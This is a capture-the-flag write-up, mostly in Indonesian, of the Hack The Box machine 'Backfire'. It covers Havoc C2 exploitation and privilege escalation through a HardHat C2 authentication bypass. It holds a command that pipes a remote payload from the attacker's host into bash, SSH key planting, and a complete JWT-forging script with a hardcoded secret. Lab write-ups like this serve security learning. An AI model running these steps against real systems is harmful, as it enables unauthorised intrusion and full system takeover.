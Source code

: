# 0. Reference
https://www.linkedin.com/posts/jose-francisco-flores-_owned-backfire-from-hack-the-box-activity-7286927982437269505-2-20
# 1. Active Port
## TCP
![[Pasted image 20250119205537.png]]
## UDP
![[Pasted image 20250119223214.png]]
# 2.Web
## Port 443
![[Pasted image 20250119205818.png]]
dirsearch normal -> nope
dirsearch raft medium -> nope
feroxbuster ->  nope
## Port 8000
![[Pasted image 20250119205910.png]]
disable_tls.patch => ada keterangan ==pake websocket==
![[Pasted image 20250119210215.png]]
havoc.yaotl => ==ada credential==
![[Pasted image 20250119210309.png]]
dirsearch normal -> nope
dirsearch raft medium -> nope
feroxbuster -> nope
## Subdomain
backfire.htb -> nope
backfire.htb:8000 -> nope
## Nikto
nope
## Whatweb
![[Pasted image 20250120094149.png]]
pada web port 443 memiliki header x-havoc -> kemungkinan port ini yang sebagai server havocnya
## Havoc.yaotl
file untuk havoc framework
# 3. Havoc Framework
Install havoc framework
https://havocframework.com/docs/installation
ada error saat instalasi, berdasarkan diskusi di github https://github.com/HavocFramework/Havoc/issues/516 , coba ganti dengan
![[Pasted image 20250120104022.png]]

found CVE https://github.com/HimmeL-Byte/CVE-2024-41570-SSRF-RCE & https://github.com/chebuya/Havoc-C2-SSRF-poc
![[Pasted image 20250120224501.png]]
![[Pasted image 20250120224521.png]]

==ini yang work== https://github.com/Mesumine/Havoc-Hackback/tree/main
```
python3 exploit.py -t https://backfire.htb/ -u ilya CobaltStr1keSuckz! -c 'curl http://10.10.14.83:8000/payload.sh | bash'
```
![[Pasted image 20250121111437.png]]
![[Pasted image 20250121111459.png]]
dapat user flag
# 4. Priviledge Escalation
generate ssh key, untuk akses via ssh
![[Pasted image 20250121130330.png]]
copykan public key tsb ke authorizes_keys
```
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPeW9gtkPbBVjx4EUFFB8wI8nPCZAZ5/6NAdovtLy9A0 kali@kali' >> authorized_keys
```
![[Pasted image 20250121130409.png]]
terdapat hardhat.txt
![[Pasted image 20250121130557.png]]
terdapat port 7096
port forwarder the port,
```
ssh -i id_ed25519 ilya@10.10.11.49 -L 8000:127.0.0.1:8000 -L 5000:127.0.0.1:5000 -L 7096:127.0.0.1:7096
```
![[Pasted image 20250121131906.png]]
groups
```
$ groups
ilya cdrom floppy audio dip video plugdev users netdev

```
![[Pasted image 20250121140749.png]]
terdapat POC eksploitasi hardhat 
https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7

## Bypass authentication
```
import jwt
import datetime
import uuid
import requests

rhost = 'localhost:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "P@ssw0rd!",
  "role": "TeamLead",
  "username": "acnsmgk"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```
![[Pasted image 20250122093704.png]]
 berhasil login dengan user yang kita buat
 ![[Pasted image 20250122094116.png]]
 pilih implant -> terminal -> masukkan ssh key kita![[Pasted image 20250122101113.png]]
berhasil dapat sergej
![[Pasted image 20250122101201.png]]
![[Pasted image 20250122101642.png]]
encript password untuk root -> kita pake "asd"
![[Pasted image 20250122132216.png]]
masukkan root password yg sudah di encrypt
![[Pasted image 20250122132719.png]]
hmm tidak bisa save ke /etc/passwd
![[Pasted image 20250122133058.png]]
coba cara lain, coba kita save ssh key kita ke .ssh nya root
![[Pasted image 20250122133412.png]]
berhasil, akses ssh
![[Pasted image 20250122133649.png]]
**PWN!**